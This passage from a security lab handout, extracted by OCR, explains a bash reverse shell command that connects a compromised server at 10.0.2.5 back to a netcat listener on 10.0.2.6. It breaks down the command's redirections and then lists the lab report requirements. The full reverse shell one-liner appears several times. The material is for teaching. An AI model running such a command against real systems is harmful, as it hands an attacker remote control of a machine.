 The above command represents the one that would normally be executed on a compromised server. It is
quite complicated, and we give a detailed explanation in the following:

- "/bin/bash -i": The optionistands for interactive, meaning that the shell must be interactive
    (must provide a shell prompt).
- "> /dev/tcp/10.0.2.6/9090": This causes the output device (stdout) of the shell to be
    redirected to the TCP connection to10.0.2.6’s port 9090. InUnixsystems,stdout’s file
    descriptor is 1.
- "0<&1": File descriptor 0 represents the standard input device (stdin). This option tells the system
    to use the standard output device as the stardard input device. Sincestdoutis already redirected to
    the TCP connection, this option basically indicates that the shell program will get its input from the
    same TCP connection.
- "2>&1": File descriptor 2 represents the standard errorstderr. This causes the error output to be
    redirected tostdout, which is the TCP connection.

In summary, the command"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1"starts
abashshell on the server machine, with its input coming from a TCP connection, and output going to the


same TCP connection. In our experiment, when thebashshell command is executed on10.0.2.5, it
connects back to thenetcatprocess started on10.0.2.6. This is confirmed via the"Connection
from 10.0.2.5 ..."message displayed bynetcat.

## 11 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.



